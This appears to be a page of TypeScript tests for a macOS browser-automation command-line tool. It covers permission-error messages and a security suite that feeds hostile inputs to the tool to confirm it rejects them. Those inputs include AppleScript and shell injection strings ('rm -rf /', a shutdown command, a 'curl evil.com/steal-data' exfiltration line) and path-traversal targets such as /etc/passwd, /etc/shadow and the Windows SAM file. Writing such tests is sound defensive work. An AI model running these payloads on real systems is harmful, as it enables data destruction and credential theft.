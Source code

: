```typescript
      });
      
      it('should provide appropriate error messages and recovery guidance', async () => {
        const result = await runCommand('snapshot', ['outline']);
        
        if (!result.success) {
          expect(result.error).toContain('System Preferences');
          expect(result.error).toMatch(/(Privacy|Security)/);
          
          // Should provide specific guidance based on missing permissions
          if (!state.applescript) {
            expect(result.error).toContain('AppleScript');
          }
          if (!state.automation) {
            expect(result.error).toContain('Automation');
          }
        }
      });
    });
  });
});
```

3. Add automated security scanning:
```typescript
// test/security/vulnerability-scan.test.ts
describe('Security Vulnerability Scanning', () => {
  describe('Input Validation Security', () => {
    it('should prevent AppleScript injection attacks', async () => {
      const maliciousInputs = [
        '"; do shell script "rm -rf /"',
        '\'; tell application "System Events" to shutdown',
        '\\"; osascript -e "beep"',
        '$(rm -rf /tmp/*)',
        '`curl evil.com/steal-data`'
      ];
      
      for (const maliciousInput of maliciousInputs) {
        // Test DOM evaluation
        const domResult = await runCommand('dom', ['eval', '--js', maliciousInput]);
        if (domResult.success) {
          // If successful, ensure no dangerous code was executed
          expect(domResult.data.result).not.toContain('shell script');
          expect(domResult.data.result).not.toContain('system events');
        } else {
          // Should fail with security error
          expect(domResult.code).toBe(ERROR_CODES.SECURITY_VIOLATION);
        }
        
        // Test file operations
        const fileResult = await runCommand('files', ['upload', '--selector', 'input', '--path', maliciousInput]);
        expect(fileResult.success).toBe(false);
        expect(fileResult.code).toBeOneOf([ERROR_CODES.INVALID_PATH, ERROR_CODES.SECURITY_VIOLATION]);
      }
    });
    
    it('should prevent path traversal attacks in file operations', async () => {
      const traversalPaths = [
        '../../../etc/passwd',
        '..\\..\\..\\windows\\system32\\config\\sam',
        '/etc/shadow',
        '../../../../usr/bin/sudo',
```

  [ERROR_CODES.PERMISSION_DENIED]: {
  [ERROR_CODES.CHROME_NOT_RUNNING]: {